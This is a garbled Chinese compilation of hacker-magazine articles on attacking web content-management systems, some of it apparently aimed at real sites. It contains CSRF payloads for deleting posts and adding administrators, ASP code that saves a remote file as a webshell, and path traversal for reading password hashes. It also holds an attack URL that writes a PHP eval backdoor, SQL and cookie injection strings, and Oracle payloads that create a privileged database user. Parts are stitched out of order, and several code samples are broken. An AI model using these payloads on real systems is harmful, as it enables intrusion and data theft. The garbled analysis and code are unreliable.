其实 YY 是无罪的，不断地 YY 可能越来越能出新的力。这就表现在我有个一起写技术 blog 帖的梦，一直 YY 点东西。这次，死骑的 seeflood 和我说：“src 就像一个正常页面里的普通 html，这实际上就是 csrf 攻击。”其实我之前看到过，它解释得很足，不会忘记它，也不知道它为何成了攻击，不能算作一个不分青红皂白就下去折腾这种（人生）吧！我觉得一下切点讲 csrf？

Cross-site request forgery（跨站请求伪造），也被称为 “one click attack” 或者 session riding，通常缩写为 CSRF 或者 XSRF，是一种对网站的恶意利用。尽管听起来像跨站脚本（XSS），但它与 XSS 并不相同，并且攻击方式几乎相反。XSS 利用站点对用户的信任，CSRF 利用用户对站点的信任，通过伪造来自受信任用户的请求来利用受信任的网站。与 XSS 攻击相比，CSRF 攻击往往不太流行（因此对其进行防范的方法更少）且难以防范，所以被认为比 XSS 更具危险性。

CSRF 攻击通过在授权用户访问的页面中包含链接或者脚本的方式工作。例如一个网站用户 Bob 正在浏览聊天论坛，同时另一个用户 Alice 在此论坛上发送图片，且开启着附带的图片附件，具有 Bob 已经登录过的图片消息。设想一下，Alice 触发了一个在 Bob 的银行网站上执行请求的恶意脚本，利用 Bob 的 cookie 中保存的授权信息，并且此 cookie 没有过期，那么当 Bob 的浏览器尝试依据图片链接发送这个取款 form 和该指令，这样在 Bob 的情况下，这个取款 form 和该指令就像是他发出来的，便授权了这次事务。

CSRF 是一种依赖 web 浏览器的、被混淆过的代理人攻击（deputy attack）。在上面银行示例中的代理人是 Bob 的 web 浏览器，它被滥用，误将 Bob 的授权直接交给了 Alice 使用。下面是 CSRF 的常见特性：依赖用户标识与密码、利用网站对用户标识的信任、伪造用户的浏览器发出 HTTP 请求给目标站点。风险在于那些通过基于受信任的场合和对待它们的浏览器（如认证的用户）来执行活动的用户，在无意识情况下发送 HTTP 请求到那个可信任的站点，进而进行用户不愿被执行的活动。

其实用 seeflood 中干净的一句话就是：“用你的 session 或者 cookie 来帮助你完成某个不想完成的事——转账。”

### 二、Get 下的 csrf

- 1、Get 下的例子 1：

我以前看到 Bink 发布过一个 dvbbs 的后台注入漏洞，很多人想问：你后台默认这么进来人？这还个人化呢？哦哦，对这个新手 csrf 不太熟悉，我就利用第一段来改这个功能，去帮着做什么？环境是在后台，后台启用了一些修改功能，再添加管理项、删除信息等操作。因为后台 get 的 csrf，我可以借此更轻松地完成一些动作，当然，也包括“让别人通过”你的浏览记录，具体就是一次链接。

在 phpblog2.5 中的 blogeditor.asp 的 79-81 行有这样一段代码：

```asp
<% if(Request.QueryString("action")="del" Or Request.Form("action")="del") then
  DeleteLog=Article.deleteLog(request("id"))
  set IArticle=anything
%>
```


我们看到 action 是直接放值的，判断下吧，本地起了个 IIS，然后测了一下，当点击“删除”的时候就是 del 操作，后面的就是日志编号。利用 CSRF 的话，就是因为一句话综合管理，管理员进入这个页面的时候就会立刻使用自己的 session 进行 del，是不是觉得有点意思呢？！能“删”人家的日志哦！我们构造了链接，管理员登录操作时，接着用图中的某条执行，exp：`[img]http://localhost/blogedit.asp?action=del&id=1[/img]`，接着我们回到这个页面，如图 2。

我看到了 phpblog 的大部分代码都是 post 的，就这个是 get 方式的，先给人一个大的概率吧。（这个不是很难，毕竟会的人根本不在乎，关注的根本不同。）


- 2、Get 下的例子 2：

## 编辑点评

Mop 也不算很强哦，还用于旧的 CMS，这也可以做个安全测试。找到 CMS 之后，大家继续挖掘。

## 【新闻缉荡警】←2008.06

花浪子说过的一个网赚奇招，他是利用 xss 来达到 post 接着备份的办法，我们来回顾下那个留言的代码：

```asp
book_user=request.form("book_user")
book_contact=request.form("book_contact")
book_content=request.form("book_content")
if len(book_user)<2 or len(book_user)>16 then
  response.write "<script>alert('用户名错误！');window.close();</script>"
  response.End()
end if
if len(book_contact)<5 or len(book_contact)>40 then
  response.write "<script>alert('反馈出错，不是咱要的邮箱呀！');window.close();</script>"
  response.End()
end if
if len(book_content)<5 or len(book_content)>100 then
  response.write "<script>alert('反馈出错，下面这位冒名的回复呀！');window.close();"
  response.write "</script>"
  response.End()
end if
set rs=Server.CreateObject("Adodb.Recordset")
sql="select * from SMT_leaveword"
rs.open sql,conn,1,3
rs.addnew
rs("SMT_book_user")=book_user
rs("SMT_book_contact")=book_contact
rs("SMT_book_content")=book_content
rs("SMT_book_sort")=sortid
rs("SMT_book_tableid")=tableid
rs("SMT_book_vpid")=vpid
rs.update
rs.close
set rs=nothing
response.write "<script>alert('反馈成功，谢谢您的参与！');"
close()</script>
<%/script>
```

这个地方可以做点手脚，浪子的方法是写个自动提交的表单，接着用 iframe 标签，网页中的 XSS 可以直接用 img 标签。注意了，我是讲思路的，不明白下手而不是有几个字不对，大家也不要太不可思议。现在回到那个 xss，做法是先把页面中的脚本标签改写成字符形式，再通过某种方式把代码执行出来。比如把“<”和“>”换掉，然后再把表单提交到服务器。

```html
<%
Set xPost = CreateObject("Microsoft.XMLHTTP")
Set xPost = CreateObject("ADODB.Stream")
Set xPost.Mode = 3
Set xPost.Type = 1
Set xPost.Open
xPost.Write xPost.responseBody
xPost.SaveToFile Server.MapPath("shell.asp"),2
%>
```

这是一段很简单的 ASP 代码，我们可以把它保存到自己的 webshell 里。例如：www.test.com/test.asp 里，接着用 `[img]` 标签来触发，借用管理员的 session（这里我们讨论的是 session）来下载 shell。在此之前你如果有网站的路径（一般 php、jsp、asp 比较容易拿路径），那么就可以直接用这个标签写个 csrf 来把 shell 保存到当前的服务器。

这种就行了吗？其实这个办法是错误的，但是我在和很多大牛讨论的时候发现了很多这类的办法，这个例子 2 就是一个错误的办法。原因在哪里呢？就是那个 img 标签，只是收到了请求就被拦截呀。因为我很早就觉得了，但是假设也成了脚本化的广告地址就下载。此处我需要注意的是：难道让我们自己做个 webshell 吗？于是就产生了 html、htm、stm 等脚本是否包含上传的想法，但是这个有很大局限，因为现在的站点很少能不检测上传到 html，而采用服务器去验证比较常见。你可以利用 html 里面的代码把它转到站外，接着在站外用你的数据库来 csrf，就像这样一个简单的例子，而且服务器为了做加密也不存在验证码。

```text
Request["name"]
request["pass"]
If request("name")<>0 and request("pass")<>0 then
  Call("add")
end if
```

然后我们看，在没有 csrf 保护时，如何利用以上面的思路，就是加个管理员。管理员具备提交表格的权限，先把这个表单提交给管理界面，然后再利用 post 过去就行了。

### 三、Post 下的 csrf

Post 下的 csrf 就跟着各位的思路差不多，因为这个 post 无论怎么说，也是要把这个按流程联系起来的。管理员不进去这个页面，再怎么 post 也没用。我们看看在 `http://www.0x54.org/lake2/xss_post_forwarder.asp?la&k=e=ht+p=i.asp&==0x54.org/&aspa=123&b=321&c=%26%23%25`（这里是自己写的 URL 编码，后面还可 URL 编码，只想从中知道路径，post 就不需要那么多了，满足文件管理人员可以不用用户照抄操作。只是针对管理员的话，管理员就会在一旁了解一种情况，所以对于 post 我就能少说了。如果没有管理权限，便可以直接提交。

### 四、后记

正如大家所看到的，这个 csrf 我用了很多次字段描述，原因就是这个 csrf 很难用机器识别摘要，其中我尝试到了一个错误的办法。我在写这个文章的时候遇到了许多的麻烦，如 img 标签发 cookie 等，花了 2 个多礼拜，遇到了很多麻烦，希望上面的一些结论能够给你带来启发。

## 小鬼当家音乐系统漏洞浅析

从本文可以学到：
- 小鬼当家音乐系统分析
- 漏洞的综合利用

### 一、漏洞分析

- 1. 任意用户 MD5 密码读取漏洞

在 play.php 中有这样的代码：

```php
if (empty($id))
    Showmsg("no", "非法操作", "关闭本页", "javascript:window.close");
    exit;
if (!file_exists("$datadir/data/$id.php"))
    Showmsg("no", "此音乐数据不存在，可能已被删除！", "返回前一页", "javascript:history.back(-1)");
    exit;

$hisurl = "http://" . $_SERVER['SERVER_NAME'] . $_SERVER['REQUEST_URI'];

$info = @file("$datadir/data/$id.php");
list($catid,$sid,$songname,$songram,$song_url,$shot,$commend,$times)=explode(...)
```

很明显，代码中的 sid 只是简单地判断变量是否为空，为空则提示错误，不为空则检查 `$datadir/data/$id.php` 文件是否存在。如果存在，使用 file 函数把 `$datadir/data/$id.php` 文件读入一个数组中，然后使用 explode 函数以“|”分割数据，并通过 list 函数把数组中的值赋给一些变量。

正常情况下，我们访问 `http://127.0.0.1/play.php?id=1` 时，程序会把 `user/data/1.php` 打开并打印，1.php 文件存储数据格式如图 1。这里的第二个“|”与第三个“|”之间的内容就是歌手名。到这里，我们就能找到为什么会看到很多歌名是空白的了吧？因为 sid 没有过滤，所以我们可以构造 `play.php?id=../../user/用户名` 来读取任意用户 MD5 密码。先获取用户的 MD5 密码，再直接访问 `/user/list.php` 就行了，如图 3。


图 3 中“网站前面一行的页面标题”前面标题文字可见，提交 `play.php?id=../../user/admin/` 即可读取管理员的 MD5 密码。


- 2. 文件写入漏洞

还是先来读代码，在 comment.php（发表评论）中有一段代码如下：

```php
if (empty($id) || empty($action))
    Showmsg("no", "非法操作", "关闭本页", "javascript:window.close");
    exit;
if ($action=="save") {
    $cknum && GdConfirm($gdcode);
    if (($content != "") {
        Showmsg("no", "所有项都要填写", "返回前一页", "javascript:history.back(-1)");
    } else {
        $userdata=convert($_POST["user"]);
        $content=saveconvert($_POST["content"]);
        $commentfile="$datadir/reply/$id.php";
        $line = "$id|$user|$grade|$ip|$timestamp|$content";
        writefile($commentfile,$line);
    }
}
```

代码中只对 `$user` 和 `$content` 使用自定义函数 safeconvert 过滤了 “&、<、>、|” 等字符，但对 `$id`、`$grade`、`$ip`、`$timestamp` 变量没有任何过滤，就调用 `writefile` 函数写文件了。

`writefile` 函数原型如下：

```php
function writefile($file_name, $data, $method = "w") {
    $filefp = fopen($file_name, $method);
    flock($filefp, LOCK_EX);
    $file_data = fwrite($filefp, $data);
    fclose($filefp);
    return $file_data;
}
```

writefile 函数在写文件的过程中并没有做其他的处理。为什么不像其他处理方式一样，在文件前面写入 `<? exit; ?>` 来限制代码执行？下面简单介绍 URI：`http://127.0.0.1/comment.php?user=aaaa&id=1&action=save&content=bbbb&grade=3` 生成后，如下图。


## 二、实战演示

使用关键字“Powered by iShow Music”到百度搜索，随便找个站 http://www.xxx.com/music/ 来测试。因为网上大部分站发表评论时需要验证码，所以先来获取一个验证码，访问 http://www.xxx.com/music/check.php，如图8。

接着访问：http://www.xxx.com/music/comment.php?user=aaa&aid=1&action=save&content=bbbbbbb&grade=3||<?php eval($_POST[cmd]); ?>&gdcode=246，gdcode 后面的数字为刚才获取的验证码，提交后提示评论发布成功。这个时候，咱们的一句话木马已经写到了 /data/reply.php 中去了，用户客户端连接之，如图9。成功拿到 webshell！

## 三、后记

对小鬼当家音乐系统漏洞的简单分析到这里就结束了。第一次分析 PHP 程序的漏洞，写得不对的地方还望各位朋友指点！欢迎到 NoHack 论坛找我讨论，我的 ID 是 mystery。


## JFcms 登录框的漏洞

某天在 BCT 某个高手那里看到了关于 JFCMS 的漏洞公告，当时也只是说输入框存在漏洞，没在意。后来无意发现某个高校的新闻站使用的就是这个系统，别的不再多说，直接网上下载一个最新的回来分析。

下载回来一看，是用 aspx 写的，直接右键“编辑”，看到的只是一些源码。在开始那几行我又看到了 `Page language="c#" Codebehind="showvote.aspx.cs" AutoEventWireup="false" Inherits="JFCmsProfessional.showvote"` 之类的代码，说明它在 dll 文件里封装了。马上下载 `JFCmsProfessional.dll` 并安装 .NET Framework，然后载入 `JFCmsProfessional.dll` 到那个文件，然后就清楚地看到了我们的源码。

既然大牛们说是在输入框里面，不用猜别的，直接找到登录文件 `siteadmin/login/jf_login.aspx`，文本方式打开，第一行：`<%@ Page Codebehind="JF_Login.aspx.cs" Language="c#" AutoEventWireup="false" Inherits="JFCmsProfessional.SiteAdmin.Login.JF_Login" %>`，很明显对应的也是 dll 里面的 `JF_Login` 类。然后再回去 dll 里找那个“确定”按钮对应的事件，去 `btnLogin_Click`，找到 reflector，看到“确定”按钮之后发生的代码如下：

```csharp
private void btnLogin_Click(object sender, EventArgs e)
{
    string userName = this.UserName.Text.Trim();
    string userPwd = this.Fc.Encrypt(this.UserPwd.Text.Trim());
    string str3 = this.Fc.getop(base.Request.ServerVariables);
    ...
}
```

```csharp
if (this.chkmsg.Text == "验证码" && this.Fc.getcookies == "JFCms_PwdCode")
{
    ...
}
else if (this.Fc.chkuser(userName, userPwd))
{
    ...
}
base.Response.Cookies["JFCms_NickName"].Value = this.Fc.Encrypt(this.gs0.ToString());
base.Response.Cookies["JFCms_UserPwd"].Value = this.Fc.Encrypt(this.rs0.ToString());
...
```

Cookies，必须要设置浏览器允许使用 Cookies 选项，想用浏览器修改器无效。

也就是说，到这里，我们的 SQL 语句已经执行了。再往下看代码，分析主要的逻辑结构，if-else 大致的结构是这样的：

```vb
if (...)
    if (s != null)
        base.Response.Write("<script>window.location.href='" + base.Server.UrlDecode(s) + "'</script>")
    else
        base.Response.Write("<script>window.location.href='/Base/Index.aspx'</script>")

    this.cmd = new OleDbCommand();
    this.cmd.Parameters.Add("@UserName", userName);
    this.cmd.Parameters.Add("@LoginIP", base.Request.UserHostAddress.ToString());
    this.cmd.Parameters.Add("@OS", str3);
    this.cmd.CommandText = ...
    ...
else
    this.cmd = new OleDbCommand();
    this.cmd.Parameters.Add("@UserName", userName);
    this.cmd.Parameters.Add("@LoginIP", base.Request.UserHostAddress.ToString());
    this.cmd.Parameters.Add("@OS", str3);
    this.cmd.Parameters.Add("@ErrorPwd", this._UserWord.Text.Trim());
    ...
```

这里可以看到对注入有用的代码，也就是对我们分析有帮助的代码。如果我们构造的查询语句正确，则返回：“您的浏览器设置已被禁用，Cookies 您必须设置浏览器才能登录！”；否则返回：“用户名和密码不匹配，您提供的用户名为 ‘userName’”。

接下来的工作就比较简单，构造语句，注入就行了。构造语句为：`username' and asc(mid(userpwd,1,1))>0 or '1'='2`。基本格式是这样的，然后就是漫长的手工猜解了。我遇到的比较变态的是 24 位的密码。

这里有几个问题。第一个，如果猜解错误，会被记录，数据库有 log 表。第二，猜解时候输入框都是有长度限制的，不要想用本地 action 指向的那种方法，因为验证码不容易搞定，不过有更简单的办法，就是网上流传的那个突破限制的代码：

```text
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\MenuExt\扩展]
@="C:\Documents and Settings\Administrator\..."

[HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main]
"..."

<script language=vbs>
set sctevent = external.menuarguments.event
set obj = createobject("document")
...
if ele.type="text" then ele.type="password" then
    ele.maxlength=200
else
    ele.maxlength=200
end if
</script>
```

使用方法当然是先将 len.reg 导入，然后再把 len.htm 保存。之后重启，在输入框点右键，有个“扩展(E)”。

```vb
public bool chkUser(string UserName, string UserPwd)
{
    bool flag = false;
    if (int.Parse(this._Dc.GetExecuteScalar("select count(UserID) from ... where UserName='" + UserName + "' and UserPwd='" + UserPwd + "'")) > 0)
        flag = true;
    return flag;
}
```

由于代码是在网上找的，原作者没有找到，遇到作者的话说一声（编辑：这段代码极有可能是 CY 写的！）。但是我在本地执行还是不成功，所以自己手动把那些东西都进了注册表。然后一路猜解，得到了用户名及密码，密码采用 DES 加密，数据都在代码里，大家自己找一下，然后破解就行了。拿到加密代码之后也就不难了，反正后台登录防护并不算强。于是说到最后，点击测试，居然连不上去，因为输入了 `or "1"="1"` 就可以登录了。

应该比较容易看明白。如果 SQL 查询语句成立，返回 true。

## 对“网赢科技——人才网”的简单分析的解惑

从本文可以学到：

网赢科技——人才网的漏洞再分析

### 一、注射点再分析

自从在 2008 年 1 月看了“冰的原点”写的文章之后，一直想看看这套程序，于是就下载研究了下！“冰的原点”在这个文件 `view_person.asp` 里找到的注入点，代码如下：

```asp
if id<>"" then
  uid=ReplaceBadChar(Trim(Request.QueryString("id")))
  if uid<>"" then
    response.write("<SCRIPT language=javascript>alert('...')")
    response.write("javascript:window.close();</SCRIPT>")
  end if
  ...
  conn.Execute "update person set click=click+1 where id='" & id & "'"
  sql_person="select * from person where job='" & id & "'"
  rs_person.open sql_person, conn, 2, 3
  if rs_person.eof or rs_person.bof then
    response.write "<script language=javascript>alert('...')"
    response.write "javascript:window.location.href..."
  end if
end if
```

这里他没看清楚，uid 这个变量先用 trim 过滤了空格后，再用 replacebadchar 函数进行了过滤。这个函数到底过滤了啥呢？我们来看看下面 `char.asp`，部分代码如下：

```asp
Function ReplaceBadChar(strChar)
  Dim strBadChar, arrBadChar, tempChar
  strBadChar = "..."
  For i = 0 To UBound(arrBadChar)
    tempChar = Replace(tempChar, arrBadChar(i), "")
  Next
  ReplaceBadChar = tempChar
End Function
```

很明显过滤了一些敏感字符。

至于“冰的原点”提到的那个头部中的 `sql.asp`，我认为是没用的。而工具报有注入点，我想到的是误报。我最喜欢的 NBSI 说它是没有注入点的，如图1。

> 本文旨在技术探讨，请不要利用文中提到的方法做任何破坏，感谢 BCT 们的几位大哥！

编辑点评：

很详细的一篇自称分析 ASP 漏洞的文章，学 ASP 的人才可以看一下作者的分析思路。

### 二、再次挖掘

我简单地看了下这个程序，其实并不安全，很多地方是可以利用的（有兴趣的自己可以看）。我们就先看根目录下的 `view_notice.asp`，代码如下：

```asp
<!--#include file="conn.asp" -->
<%
  id=Trim(Request.QueryString("id"))
  set rs=requestobject("adodb.recordset")
  sql="select * from [notice] where id='" & id & "'"
  rs.open sql, Conn, 1, 3
  if rs.eof then
    Response.Write "还没有公告"
  end if
%>
```

这个文件与公告相关，打开主站，公告处如图2。

打开之后会看到图3。也许有人说没变量怎么利用，有点基础的就会去抓包（GET 方式的已测试了）。这时我们再细细地看图3右下角 `view_notice.asp?id=1` 一段，连起来就是 http://127.0.0.1/view_notice.asp?id=1，丢进去看看能否爆出来，如图4。后台登录，确定是需要验证码。


不能的，如图5。

这个不进后台就猜不到管理员口令了，它的默认验证码是 `jobacc`，当然在 `admin/ChkCode.asp` 里是可以改的！

至于后台套 webshell 我也不想说了（免责声明：文中未注明，后台好多地方只有图片上传），相信看了这么多文章，大家都有自己的方法！有什么想说的，NOHACK 论坛上找我，关注 ID：艾米。

编辑点评：

小编很喜欢这类有求知欲的文章为引子，提出漏洞后继续细分分析，这样可以更大程度地针对这个系统，还可以在不明的“撞机”中找到真相的正确答案。

小编还是想说，不要太依赖工具，它们都不是“最准”的，切记！


## 邪门家族网 V2008 漏洞分析

### 不完美的渗透

从本文可以学到：

1. 漏洞分析和利用
2. 对一些问题的疑惑和反思

大家好，我是机械专业的，看“黑手”两年了，自学了 ASP，又得《精通调试+Hack》的熏陶。在上期杂志的启发下，第一次发表文章，班门弄斧一下，也不知小编稿子通不通……废话不多说，在本机上搭建好环境，给大家看着好了。

### 一、貌似很强壮的网站

`sql.asp` 文件被包含在数据库连接文件 `conn.asp` 中，它对凡是从地址栏提交的数据都进行了过滤，如图1。


### 二、暴库

查看数据库连接文件 `conn.asp` 全部代码如下：

```asp
<!-- #include file="sql.asp" -->
<%
dim connstr,datapath,conn
...（代码略）...
%>
```


根据代码看，该文件没有错误处理语句 `On Error Resume Next`，可直接暴库。输入 http://localhost/inc/conn.asp，如图2。

其实暴库的地方还有 `/Manage/Include/Login.Conn.asp`、`/Manage/Include/Conn.asp`，它们都没有容错语句。

### 三、eWebEditor 在线编辑器

拿到密码，我这儿是 admin/admin，后台登录地址为：http://localhost/Manage/login.asp。进入后台，转到“新闻管理”→“添加新闻”，出现图3的画面。


大家看到了吗？`src="../webedit/ewebeditor.asp?..."`，我们在浏览器地址栏输入 http://localhost/Manage/News/../webedit/admin_login.asp，如图5。

### 四、搜索型注入漏洞

我们查看 http://localhost/So.asp 的源文件，部分代码如下：


可以看到该文件以 POST 方式提交我们的数据 `keyword` 到 `So_result2.asp` 文件中，查看 `So_result2.asp` 文件，部分代码如下：

## 看小票分析鹏程网络 v1.8 漏洞

从本文可以学到：鹏程网络 v1.8 漏洞分析

每当我看见《黑客手册》上的那些大牛们分析整站漏洞时，心中就羡慕不已。于是就到中国站长站去下载了一套整站程序来分析，名字叫做鹏程网络 v1.8，是一个关于个人主页的整站，才刚刚出来不久就得到了不错的下载量，界面很清爽，让人看了很舒服，并且官方提供不同风格的模板，如图。

### 一、注入漏洞

呵呵，这一找就让我找到了一个漏洞，在根目录下的 `musicsee.asp` 文件中有如下代码：

```asp
<%
Dim k_id,musicsee
musicsee=request("musicsee")
k_id=request.querystring("id")
%>
```

```asp
Query_Badword = Split(Replace(Replace(Replace(Replace(Replace(Replace(Replace(Replace(Replace(Replace(Replace(Replace(Query_String, "'", ""), "\"", ""), " ", ""), "--", ""), ";", ""), "/*", ""), "*/", ""), "<", ""), ">", ""), "#", ""), "&", ""), "=", ""), ",", ""), "", "")
```

```asp
For I = 0 To UBound(Query_Badword)
    If InStr(1, Query_String, Query_Badword(I), 1) Then
        MsgBox("…")
    End If
Next
```

我们注意到防注入系统用的是 `Request.QueryString`，而 QueryString 只读取以 URL 方式提交的数据或以 GET 方式提交的 `<form>` 中的数据。而前面提到我们以 POST 方式提交数据，那么，搜索型注入漏洞就产生了。

实验一下，我们用外部提交方式，因为提交的数据被限制为 20 个，细心的朋友可以从代码看出，构造代码如下：

| 字段 | 值 |
|---|---|
| keywd | text |
| keyword | 1000 |
| ... | ... |

然后我们在提交页面输入一些商品的查询词，测试发现可以绕过过滤。继续分析可得：

### 五、如何修复网站

- 1. 删除 webeditor 在线编辑器的默认登录页面。
- 2. 搜索一下，只有上面三个数据库连接文件，在它们里面都加上容错代码，这样才安全。
- 3. 在 `sql.asp` 里加上对 `Request.Form` 提交语句的过滤。

### 六、总结

限于本人才疏学浅，知识有限，不妥之处请多多指教。另用 NBSI 进行搜索整站时仍有些疑问，希望高手指点一下，感激啊！


## 一、安全防范手册 2008.06 —— [新手练练看]

id 没有经过任何过滤，就直接进到了数据库，这就造成了注入。我们在 id 后面加上 and 1=1 和 and 1=2，很明显，两个页面有差异，如图 2 和图 3。我们可以选择工具或者手工猜解，手工需要在 id 后面加上 and 1=2 union select 1,2,user,4,pwd,6,7,8 from user_88n，如图 4。用户名字段是 admin，密码是 92f6086da0f7d96ff28339cfcdda88392f6086da0f7d96ff28339cfcdda883，当时出来的密码简直把我吓了一跳，没见过 MD5 密码有这么多位的，看来还要仔细地分析一下。于是对于刚建的数据表，admin 的加密密码是 43894a0e21232f294a801fc378a7a5a743894a0e21232f294a801fc378a7a5a74，如图 5。原来的密码组合是（32 位密码的倒数第 2 个 8 位 + 正数第一个 8 位 + 倒数第一个 8 位 + 16 位密码）*2。可谓这样分析我们就只需得出第 25 个数以后的 16 位密码，即可为正常加密的 MD5 密码。让我们看看还有没有其他的注入，代码如下：


看到这里，在 inc 目录下的 function.asp 读取过程中，m_type 没有经过任何过滤就直接带到了数据库中，在 music.asp 中调用了 my88n()，这是在 inc/code.asp 下定义的，其中调用了 show_musics。我们将构造 http://网址/musics.asp?m_type=MU5IC，把它丢到注入工具去检测一下，很可惜啊，小榕和可马都不能成功，用 NBSI 可以成功，如图 6。我们只需改 25 位开始的 16 位密码即可，官方站也测试成功，可惜解不出来原来的 MD5 密码。


## 二、上传漏洞

后来当我看见 admin/upload/upload_photo.asp，我笑了，怎么会犯这样的错误呢？代码如下：

```vb
<code snippet from image omitted due to low resolution>
```

## 凹丫丫网站管理系统

从本文您可以学到：

- 基本的漏洞分析

同时让我帮忙做个网站提高下知名度（虚伪，鄙视），我随便下载了个“凹丫丫网站管理系统”，改一改它下手，随手看了看代码，感觉好奇，往防注入的安全性方面找漏洞处打补丁，便发现了它的文件权限，输出来给新手看看、练练手，高手就免笑了。

## 一、传说中的“暴库”

在 /manage 文件中不经意间看到了 adminconn.inc 这个文件，这太惊奇了，居然把数据库连接文件存在 INC 文件里，INC 是可以在 IIS 中一览无余的啊，如图 1。


从 `$rsSQL="DBQ="+server.mappath("../data#oyaya.cn/#oyaya.cn_data.asa")+";DRIVER={Microsoft Access Driver (*.mdb)};"` 可以看到，数据库的相对路径居然在这里，是 ASA 格式的，可以下载的哦！把 # 转化为 %23 就可以了。

## 二、SQL 注入漏洞

在 newsdisp.asp?id=...（其实 news.asp 中存在这样的漏洞）后加 and 1=1 和 and 1=2，弹出“是小子，你整死我了”，如图 2。真假脱法作者，真是无奈。原来作者在这边忍了折磨。发现 newsdisp.asp 里包含了 include/conn.asp，我们来看看 include/conn.asp 的代码。

```asp
<%
Dim XH,Post,XH_Get,XH_In,XH_Nf,XH_XH,Xh_db,XH_dbst
' 自定义来取对应的参数
XH_In = ""
%>
```


另外，这个系统绝大多数的用户递交变量都没有过滤，随便找个地方插入一句话木马，WEBSHELL 就轻松愉快地得到了。

## 三、修补方法

- 在 blogsee.asp 中的 `id=request.querystring("id")` 后加上 `id=cint("id")`
- 在 inc/function.asp 中加入 `m_type=replace(m_type," ","")`

编辑点评：比较简单的一篇文章，其中关于密码的分析比较不错，新手继续加油。


想上传什么文件，任何用户都可以访问。传什么文件，我做测试时官方居然还存在这种低级漏洞，如图 7、图 8。

如果你认为这样拿 shell 太轻松了，你也可以选择破解 MD5 密码进入他后台，同样，不过多说了。另外，还可能随意修改上传文件的名字，修改一个 .asp 的文件名在 Win2003 的系统也是有效的，至于数据库备份我就没有看了，还是等着大家一起来研究吧。

## 《黑客攻防实战手册 2008.06》【漏洞续看】

很多经典的 SQL 通用防注入程序文件，只是对 Request 对象的 QueryString 和 Form 集合进行过滤，忽略了 Cookies，所以漏洞便出现了。我们不但可以注入，而且还能跨站，这样的防注入方式简直百洞围攻。

## 三、COOKIE 注入

我们用于实验下 Cookies 注入，先访问 `http://www.xxx.com/newssid.asp?id=9`，然后在浏览器的地址栏里输入 `javascript:alert(document.cookie="id="+escape("9 and 1=1"))`，如图 3。再访问 `http://xxxx/newssid.asp` 没有出错，再在 IE 的地址栏里输入 `javascript:alert(document.cookie="id="+escape("9 and 1=2"))`，如图 4。这时访问的时候就会报出错误，表示可以用 Cookie 注入。


## 四、跨站跨到后台去

linkc.asp 是申请友情连接的界面，我们来看其中的一段代码：

```asp
set rs=server.createobject("adodb.recordset")
select * from link
rs.open sql,conn,3,3
rs.addnew
rs("name")=Request("name")
rs("url")=Request("url")
rs("logo")=Request("logo")
rs("lx")=Request("lx")
rs.update
rs.close
set rs=nothing
```


所有的变量都没过滤，随便提交 `<script>alert("d")</script>`，然后我们进后台的“连接管理—未验证连接”就可以看到我们的成果了，如图 5。呵呵，管理员傻了吧，这个系统的安全性只能用惨不忍睹来形容，不过给我们这些新手练练手刚好，毕竟网络安全状况越来越好，这种安全性比较差的也很少了。

编辑点评：确实，这个系统给新手练手很不错，不会的要抓紧时间练习哟，因为这样的系统真的是越来越少了（这是个好消息）。

## 再爆 phpcms 的多个漏洞 —— 终篇之暴物理路径

phpcms 除了上期提到的两个漏洞外，还有一种“奶妈级”的漏洞，那就是暴物理路径，并且不妨拿一个文件夹来说明吧，在 cms/phpcms/admin/templates/file_manage.tpl.php 发现如下代码：

```php
<?php
if (defined('IN_PHPCMS') or exit('Access Denied');
include(dirname(__FILE__).'/header.php');
?>
```

admintpl 没有定义就直接使用，导致文件访问时报错，如图 1。

## 对着各快递公司的——一次狠绝的 Oracle 注入

从本文您可以学习到：

- Oracle 注入的流程

## 一、轻车熟路

union select NULL,NULL,...,NULL from dual——这条语句有 49 个 null，我们前台有回显特征。由于 union 查询数据库类型匹配，否则出错，所以这里用 NULL 以不明类型可以绕过类型匹配。接着提交 `http://21x.xxx.x03.15/server2.asp?wen=四川省 and 1=2 union select 1,NULL,...,NULL from dual--`，此时服务器类型不匹配，换成 `http://21x.xxx.x03.15/server2.asp?wen=四川省 and 1=2 union select '1',NULL,...,NULL from dual--`，返回正确，说明第一条语句的字段位置并没有显示，继续按以上方法测试 4 个、12 个、13 个、1 个等，直到找出返回值的位置。

站点列表如图 1 所示，网站页面中含有查询表单与结果页，工具误差较大，最好通过浏览器查看返回结果。图 2 所示，通过单引号构造报错回显，进一步推测字段数。


如果查询语句构造正确，会发现页面中直接回显数据库版本、用户、权限等信息。接着使用 order by 20、order by 30 等方式判断列数，再利用 union select 语句逐步获取账号信息与系统数据。

解决办法也很简单，因为这些文件一般都要有一定的权限才能访问，直接在文件头中加上：`defined('IN_PHPCMS') or exit('Access Denied');` 就行了。

总的说来，phpcms 在有些地方处理得还不够好，不过这也是开源软件常见的问题。


```sql
DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT'.PUT(:P1),EXECUTE IMMEDIATE 'DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''CREATE USER REBEYOND IDENTIFIED BY REBEYOND''; END;';END;','SYS',0,'1',0)--
```

```sql
DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT'.PUT(:P1),EXECUTE IMMEDIATE 'DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''GRANT CONNECT TO rebeyond''; END;';END;','SYS',0,'1',0)--
```

## 二、峰回路转

